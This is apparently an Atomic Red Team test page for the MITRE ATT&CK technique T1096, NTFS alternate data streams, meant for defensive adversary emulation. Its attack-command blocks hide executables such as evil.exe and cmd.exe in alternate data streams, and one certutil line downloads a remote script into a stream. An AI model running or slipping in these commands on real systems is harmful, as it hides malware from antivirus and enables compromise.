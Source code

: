 # T1096 - NTFS File Attributes
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1096)
<blockquote>Every New Technology File System (NTFS) formatted partition contains a Master File Table (MFT) that maintains a record for every file/directory on the partition. (Citation: SpectorOps Host-Based Jul 2017) Within MFT entries are file attributes, (Citation: Microsoft NTFS File Attributes Aug 2010) such as Extended Attributes (EA) and Data [known as Alternate Data Streams (ADSs) when more than one Data attribute is present], that can be used to store arbitrary data (and even complete files). (Citation: SpectorOps Host-Based Jul 2017) (Citation: Microsoft File Streams) (Citation: MalwareBytes ADS July 2015) (Citation: Microsoft ADS Mar 2014)

Adversaries may store malicious data or binaries in file attribute metadata instead of directly in files. This may be done to evade some defenses, such as static indicator scanning tools and anti-virus. (Citation: Journey into IR ZeroAccess NTFS EA) (Citation: MalwareBytes ADS July 2015)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Alternate Data Streams (ADS)](#atomic-test-1---alternate-data-streams-ads)

- [Atomic Test #2 - Store file in Alternate Data Stream (ADS)](#atomic-test-2---store-file-in-alternate-data-stream-ads)


<br/>

## Atomic Test #1 - Alternate Data Streams (ADS)
Execute from Alternate Streams

[Reference - 1](https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f)

[Reference - 2](https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/)

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| path | Path of ADS file | path | c:&#92;ADS&#92;|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"
extrac32 #{path}\procexp.cab #{path}\file.txt:procexp.exe
findstr /V /L W3AllLov3DonaldTrump #{path}\procexp.exe > #{path}\file.txt:procexp.exe
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1096/src/test.ps1 c:\temp:ttt
makecab #{path}\autoruns.exe #{path}\cabtest.txt:autoruns.cab
print /D:#{path}\file.txt:autoruns.exe #{path}\Autoruns.exe
reg export HKLM\SOFTWARE\Microsoft\Evilreg #{path}\file.txt:evilreg.reg
regedit /E #{path}\file.txt:regfile.reg HKEY_CURRENT_USER\MyCustomRegKey
expand \\webdav\folder\file.bat #{path}\file.txt:file.bat
esentutl.exe /y #{path}\autoruns.exe /d #{path}\file.txt:autoruns.exe /o
```






<br/>
<br/>

## Atomic Test #2 - Store file in Alternate Data Stream (ADS)
Storing files in Alternate Data Stream (ADS) similar to Astaroth malware.
Upon execution cmd will run and attempt to launch desktop.ini. No windows remain open after the test

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| payload_path | Path of file to hide in ADS | path | c:&#92;windows&#92;system32&#92;cmd.exe|
| ads_file_path | Path of file to create an ADS under | path | C:&#92;Users&#92;Public&#92;Libraries&#92;yanki&#92;desktop.ini|
| ads_name | Name of ADS | string | desktop.ini|


#### Attack Commands: Run with `powershell`! 


```powershell
if (!(Test-Path C:\Users\Public\Libraries\yanki -PathType Container)) {
    New-Item -ItemType Directory -Force -Path C:\Users\Public\Libraries\yanki
    }
Start-Process -FilePath "$env:comspec" -ArgumentList "/c,type,#{payload_path},>,`"#{ads_file_path}:#{ads_name}`""
```

#### Cleanup Commands:
```powershell
Remove-Item "#{ads_file_path}" -Force -ErrorAction Ignore
```





<br/>
